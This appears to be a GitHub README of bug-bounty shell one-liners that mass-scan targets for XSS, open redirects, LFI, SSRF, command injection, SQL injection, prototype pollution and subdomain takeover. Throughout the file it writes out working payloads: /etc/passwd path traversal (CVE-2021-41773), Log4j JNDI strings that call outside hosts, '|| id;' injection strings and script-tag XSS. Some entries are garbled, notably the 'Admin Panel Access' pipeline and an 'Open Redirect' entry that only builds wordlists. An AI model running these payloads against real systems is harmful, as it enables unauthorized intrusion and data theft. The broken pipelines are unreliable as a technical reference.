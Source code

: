 # One-Liner-Scripts
***A collection of awesome one-liner scripts especially for bug bounty.***


**XSS**

```
echo "target.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```

**OpenRedirect**

```
waybackurls target.com | grep -a -i \=http | qsreplace 'https://evil.com' | while read host do;do curl -s -L $host -I|grep "https://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done
```

**SubDomain TakeOver**

```
cat subdomains.txt | xargs  -P 50 -I % bash -c "dig % | grep CNAME" > cname.txt
```
```
cat cname.txt | awk '{print $1}' | sed 's/.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe
```

**CVE-2021-41773**

```
cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
```

**XSS**

```
cat urls.txt | kxss | awk ‘{print $4}’| sort -u | dalfox pipe -b <you blind xss> — custom-payload <your payload> -w 300 — multicast — mass — only-poc -o xss_vulns.txt
```
```
cat urls.txt | kxss | awk ‘{print $4}’| sort -u >> xss_list.txt
```

**Hidden Dirs**
```
dirsearch -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json  -u https://target
```

**Open Redirect**

```
subfinder -silent -d domain | anew subdomains.txt | httpx -silent | anew urls.txt | hakrawler | anew endpoints.txt | while read url; do curl $url --insecure | haklistgen | anew wordlist.txt; done
```
```
cat subdomains.txt urls.txt endpoints.txt | haklistgen | anew wordlist.txt;
```

**Hidden Params in JS**

```
cat subdomains.txt | gauplus -subs -t 100 -random-agent | sort -u --version-sort | httpx -silent -threads 2000 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done
```

**LFI**

```
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

**XSS**

```
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```

**Prototype Pollution**

```
subfinder -d target.com -all -silent | httpx -silent -threads 300 | anew -q alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

**PortScan without Waf**

```
subfinder -silent -d uber.com | filter-resolved | cf-check | sort -u | naabu -rate 40000 -silent -verify | httprobe
```

**SubDomain Takeover**

```
subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/go/src/github.com/haccer/subjack/fingerprints.json -v 3 >> takeover ; 
```

**Hidden Servers & Admin Panels**

```
ffuf -c -u https://target .com -H "Host: FUZZ" -w vhost_wordlist.txt 
```

**XSS**

```
waybackurls target.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```

**SSRF**

```
cat wayback.txt | gf ssrf | sort -u |anew | httpx | qsreplace 'burpcollaborator_link' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```

**Admin Panel Access**

```
cat urls.txt | qsreplace "?admin=true" | gau | phpgcc | anew | kxss | awk  -v  -q txt | sed 's/http/\nhttp/g' | grep ^http | sed 's/\(^http[^ <]*\)\(.*\)/\1/g' | grep -vi -e dalfox -e lElLxtainw| sort -u | waybackurls
```

**Extract sensitive end-point in JS**

```
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

**Command Injection**

```
subfinder -d target.com | httpx | gau | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt
```
```
ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```

**Log4j**

```
subfinder -d target.com -silent |puredns resolve -q |httprobe | while read url; do case1=$(curl -s $url -H "X-Api-Version: ${jndi:ldap://Yourburpcolab/a}"); case2=$(curl -s "$url/?test=${jndi:ldap://Yourburpcolab/a}"); case3=$(curl -s $url -H "User-Agent: ${jndi:ldap://Yourburpcolab/a}"); echo -e "\033[43mDOMAIN => $url\033[0m]" "\n" " Case1=> X-Api-Version: running-Ldap-payload" "\n" " Case1=> Useragent: running-Ldap-payload" "\n" " Case1=> $url/?test=running-Ldap-payload" "\n";done
```

**SQLi**

```
sqlmap -u "https://target" --header="X-Forwarded-For: 1*" --dbs --batch --random-agent --threads=10 
```

**CVE-2021-44228**

```
cat subdomains.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:ldap://log4j.requestcatcher.com/a}" -H "X-Api-Version: ${jndi:ldap://log4j.requestcatcher.com/a}" -H "User-Agent: ${jndi:ldap://log4j.requestcatcher.com/a}";done
```

**LFI**

```
subfinder -d target.com | httpx -follow-redirects -title -path /api/geojson?url=file:///etc/passwd -match-string "root:x:0:0"
```

**CVE-2021-40438**

```
cat file.txt | while read host do;do curl --path-as-is --insecure "$host/?unix:(7701 A's here) | "https://bugbounty.requestcatcher.com/ssrf" | grep "request caught" && echo "$host \033[0;31mVuln\n" || echo "$host \033[0;32mNot\n";done
```

**RCE**

```
cat subdomains.txt | httpx | gau | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt
```
```
ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```

**LFI**

```
gau https://target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

**Open Redirect**

```
cat domains.txt | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew
```

**More Scripts Coming Sooon.....**

### Support Me


[![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif)](https://www.paypal.com/paypalme/litt1eb0y)
